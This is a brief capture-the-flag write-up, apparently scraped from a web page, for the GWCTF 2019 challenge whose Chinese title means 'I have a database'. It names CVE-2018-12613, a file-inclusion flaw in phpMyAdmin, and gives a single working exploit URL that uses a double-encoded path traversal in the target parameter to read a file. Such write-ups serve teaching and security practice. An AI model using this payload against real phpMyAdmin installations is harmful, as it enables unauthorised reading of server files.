 # \[GWCTF 2019]我有一个数据库

## \[GWCTF 2019]我有一个数据库

## wp

CVE-2018-12613 phpMyadmin后台任意文件包含漏洞

phpmyadmin/?target=db\_sql.php%253f/../../../../../../../../flag
